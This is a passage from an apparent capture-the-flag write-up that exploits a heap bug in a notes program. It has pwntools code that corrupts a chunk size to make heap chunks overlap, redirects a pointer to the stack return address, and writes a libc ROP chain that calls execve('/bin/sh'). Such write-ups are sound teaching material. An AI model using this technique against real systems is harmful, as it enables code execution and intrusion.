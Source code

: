 Corrupt the `notes[5]` chunk - make it look like `0x160` bytes - extending up to and including
`notes[5] chunk.

```python
io.sendlineafter(PROMPT, "e")
io.sendlineafter("Name: Name: ", NAME(4))
io.sendlineafter("New Note: ", NOTE(4).encode('ascii')+b"ZZZZZZZZ"+p64(0x161))
```

Delete note #5. This will delete both strings first (putting them in `0x80` Tcache bin) and then,
delete the `notes[5]` chunk, which at this point is `0x160` bytes long and, as such will be put
in the fastbin cache.

```python
io.sendlineafter(PROMPT, "d")
io.sendlineafter("Name: Name: ", NAME(5))
```

At this point, next allocation of `0x150` bytes will reuse this chunk - all that while it overlaps
with `notes[6]`, which is still in use we can edit the string that `notes[6]->note` is pointing to.

## 4. Make notes[6]->note point to stack return address.

We will use `Change User` for that. What payload do we put there?

```python
# Overwrite area between notes[5] struct and end of notes[5]->text (excl. final zero qword)
payload = (0x561387c25be0 - 0x561387c25ac0)*b"A"
# Append the extra zero qword and the chunk header for notes[6]
payload += p64(0) + p64(0x31)
# Append desired notes[6] struct content
note6NamePtr = usernamePtr + 0x561387c25bf0 - 0x561387c25440+0x30
payload += p64(note6NamePtr) + p64(0x78)  # Keep same name length
payload += p64(retaddr) + p64(0x80) 
# Now, "rename" user to the payload. That will overwrite notes[6].
io.sendlineafter(PROMPT, "u")
io.recvuntilS("New username length: ")
io.sendline(str(len(payload)))
io.sendlineafter("New Username: ", payload)
```

(for any of the hex addresses used above, refer to heap dump)

## 5. Edit notes[6] - put the ROP chain on stack and get the shell

Now that `notes[6]` is ready, with stack address in the `note` field, all that's left is
just to 'edit' that note to contain the ROP chain:

```python
# ROPgadget --binary libc-2.27.so  | grep ': pop rdi ; ret$'
payload  = p64(libcPtr + 0x0002164f)
# ROPgadget --binary libc-2.27.so  --string '/bin/sh'
payload += p64(libcPtr + 0x001b3d88)
# ROPgadget --binary libc-2.27.so  | grep ': pop rsi ; ret$'
payload += p64(libcPtr + 0x00023a6a)
payload += p64(0)
# ROPgadget --binary libc-2.27.so  | grep ': pop rdx ; ret$'
payload += p64(libcPtr + 0x00001b96)
payload += p64(0)
# ROPgadget --binary libc-2.27.so  | grep ': pop rax ; ret$'
payload += p64(libcPtr + 0x0001b500)
payload += p64(59)  # execve
# ROPgadget --binary libc-2.27.so  | grep ': syscall$'
payload += p64(libcPtr + 0x00002743)

io.sendlineafter(PROMPT, "e")
io.sendlineafter("Name: Name: ", NAME(6))
```